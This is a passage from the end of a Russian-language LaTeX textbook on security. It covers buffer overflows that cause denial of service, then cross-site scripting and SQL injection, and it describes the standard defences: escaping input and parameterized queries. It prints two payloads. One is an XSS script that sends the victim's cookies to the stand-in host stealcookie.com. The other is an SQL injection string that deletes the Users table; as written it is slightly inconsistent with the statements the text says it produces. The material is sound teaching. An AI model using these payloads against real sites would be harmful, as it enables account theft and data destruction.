Почти любую возможность для переполнения буфера в стеке или динамической памяти можно использовать для получения критической ошибки в программе из-за обращения к адресам виртуальной памяти, страницы которых не были выделены процессу. Следовательно, можно проводить атаки отказа в обслуживании (\langen{Denial of Service (DoS) attacks}).

Переполнение буфера в динамической памяти, в случае хранения в ней адресов для вызова функций, может привести к подмене адресов и исполнению другого кода.

В описанных DoS-атаках NX-бит не защищает систему.


\section{Межсайтовый скриптинг}\index{атака!XSS}
\selectlanguage{russian}

Другой вид распространённых программных уязвимостей состоит в некорректной обработке данных, введённых пользователем. Типичные примеры: отсутствующее или неправильное экранирование специальных символов и полей (спецсимволы \texttt{<} и \texttt{>} HTML, кавычки, слэши \texttt{/}, \texttt{\textbackslash}) и отсутствующая или неправильная проверка введённых данных на допустимые значения (SQL-запрос к базе данных веб-ресурса вместо логина пользователя).

Межсайтовый скриптинг (\langen{Cross-Site Scripting, XSS}) заключается во внедрении в веб-страницу злоумышленником $A$ исполняемого текстового скрипта, который будет исполнен браузером клиента $B$. Скрипт может быть написан на языках JavaScript, VBScript, ActiveX, HTML, Flash. Целью атаки является, как правило, доступ к информации клиента.

Скрипт может получить доступ к cookie-файлам данного сайта, например с аутентификатором, вставить гиперссылки на свой сайт под видом доверенных ссылок. Вставленные гиперссылки могут содержать информацию пользователя.

Скрипт также может выполнить последовательность HTTP GET- и POST-запросов на веб-сайт для выполнения действий от имени пользователя. Например вирусно распространить вредоносный JavaScript код со страницы одного пользователя на страницы всех друзей, друзей друзей и~т.\,д., а затем удалить все данные пользователя. Атака может привести к уничтожению социальной сети.

Приведём пример кражи cookie-файла веб-сайта, который имеет уязвимость на вставку текста, содержащего исполняемый браузером код.

%Когда браузер первый раз обращается к сайту, веб-приложение может выслать вместе с HTML страницей cookie-файл, хранящий текстовую строку последовательностей

Пусть аутентификатор пользователя в cookie-файле сайта \texttt{myemail.com} содержит
\begin{center} \begin{verbatim}
auth=AJHVML43LDSL42SC6DF;
\end{verbatim} \end{center}

Пусть текстовое сообщение, размещённое пользователем, содержит скрипт, помещающий на странице <<изображение>>, расположенное по некоему адресу
\begin{verbatim}
<script>
  new Image().src = "http://stealcookie.com?c=" +
    encodeURI(document.cookie);
</script>
\end{verbatim}

Тогда браузеры всех пользователей, которым показывается сообщение, при загрузке страницы отправят HTTP GET-запрос на получение файла <<изображения>> по адресу
\begin{center} \begin{verbatim}
http://stealcookie.com?auth=AJHVML43LDSL42SC6DF;
\end{verbatim} \end{center}

В результате злоумышленник получит cookie, используя который он сможет заходить на веб-сайт под видом пользователя.

Вставка гиперссылок является наиболее частой XSS-атакой. Иногда ссылки кодируются шестнадцатеричными числами вида \texttt{\%NN}, чтобы не вызывать сомнения у пользователя текстом ссылки.
%Браузер самостоятельно не может отослать данные на другой сайт, отличный от текущего, поэтому передаваемая информация содержится в гиперссылках.

%(например, JavaScript код), либо программным обеспечением, генерирующим HTML-страницу для выдачи клиенту $B$ (например, PHP код). Цель XSS атаки -- либо выполнение JavaScript кода браузером клиента, либо выполнение скриптового кода на веб-сервере при запросе клиента к нему.

%Простой пример -- веб-форум. Пользователи вводят в формы текстовые сообщения, которые запоминаются в БД и показываются другим пользователям. Страница форума генерируется каждый раз заново при запросе пользователей информационной системой. Генерирование часто происходит из шаблона страницы, который содержит и базовый статический HTML код страницы, и исполняемый код скрипта для вставки динамического содержания на основе запроса к базе данных. Как правило, злоумышленник пользуется во время генерирования страницы некорректным экранированием текста, введённого им в формах ввода текста веб-страницы, кавычек, слэшей. То есть, текстовые значения полей, которые сохраняются в базе данных веб-сайта и отображаются другим пользователям, содержат исполняемый код злоумышленника.

На 2009 г. 80\% обнаруженных уязвимостей веб-сайтов являются XSS-уязвимостями.

Стандартный способ защиты от XSS-атак заключается в фильтрации, замене, экранировании символов и слов введённого пользователем текста: \texttt{<}, \texttt{>}, \texttt{/}, \texttt{\textbackslash}, \texttt{"}, \texttt{'}, \texttt{(}, \texttt{)}, \texttt{script}, \texttt{javascript} и~др., а также в обработке кодировок символов.


\section{SQL-инъекции}
\selectlanguage{russian}

Второй классической уязвимостью веб-приложений являются SQL-инъекции (\langen{SQL injection}), когда пользователь имеет возможность поменять смысл запроса к базе данных веб-сервера. Запрос делается в виде текстовой строки на скриптовом языке SQL. Например, выражение
\begin{verbatim}
"SELECT * FROM Users WHERE Name = '" + username + "';"
\end{verbatim}
предназначено для получения информации о пользователе, имя (логин) которого задан переменной \texttt{username}. Однако если пользователь вместо имени введёт строку вида
\begin{center} \begin{verbatim}
john';  DELETE * FROM Users;  SELECT * FROM Users WHERE
  Name = 'john,
\end{verbatim} \end{center}
то выражение превратится в три SQL-операции:

\begin{verbatim}
-- запрос о пользователе john
SELECT * FROM Users WHERE Name = 'john';
-- удаление всех пользователей
DELETE FROM Users;
-- запрос о пользователе john
SELECT * FROM Users WHERE Name = 'john';
\end{verbatim}
При выполнении этого SQL-запроса к базе данных все записи пользователей будут удалены.

Уязвимости в SQL-выражениях являются частными случаями уязвимостей, связанных с использованием сложных систем с разными языками управления данными и, следовательно, с разными системами экранирования специальных символов и контроля над типом данных. Когда веб-сервер принимает от клиента данные, закодированные обычно с помощью <<application/x-www-form-urlencoded>>~\cite{html4:1999}, специальные символы (пробелы, неалфавитные символы и~т.\,д.) корректно экранируются браузером и восстанавливаются непосредственно веб-сервером или стандартными программными библиотеками. Аналогично, когда SQL-сервер передаёт данные клиентской библиотеке или принимает их от неё, внутренним протоколом общения с SQL-сервером происходит кодировка текста, который является частью пользовательских данных. Однако на стыке контекстов -- в тот момент, когда программа, выполняющаяся на веб-сервере, уже приняла данные от пользователя по HTTP-протоколу\index{протокол!HTTP} и собирается передать их SQL-серверу в качестве составной части SQL-команды -- перед программистом стоит сложная задача учёта в худшем случае трёх контекстов и кодировок: входного контекста протокола общения с клиентом (HTTP), контекста языка программирования (с соответствующим оформлением и экранированием специальных символов в текстовых константах) и контекста языка управления данными SQL-сервера.

Ситуация усложняется тем, что программист может являться специалистом в языке программирования, но может быть не знаком с особенностями языка SQL или, что чаще, конкретным диалектом языка SQL, используемым СУБД.

Метод защиты заключается в \emph{разделении} кода и данных. Для защиты от приведённых атак на базу данных следует использовать параметрические запросы к базе данных с \emph{фиксированным} SQL-выражением. Например, в JDBC~\cite{jdbc:2006}:
\begin{verbatim}
PreparedStatement p = conn.prepareStatement(
    "SELECT * FROM Users WHERE Name=?");
p.setString(1, username);
\end{verbatim}

Таким образом, задача корректного оформления текстовых данных для передачи на SQL-сервер перекладывается на драйвер общения с СУБД, в котором эта задача обычно решена корректно авторами драйвера, хорошо знающими особенности протокола и языка управления данными сервера.


%\chapter{Послесловие}
%Это должно быть что-то в виде заключения, объяснения, почему именно эти темы выбраны, насколько актуален материал с теоретической и практической точки зрения.

\subimport*{appendix/}{index}

\printindex

\printbibliography[heading=bibintoc,title={Литература}]

\end{document}
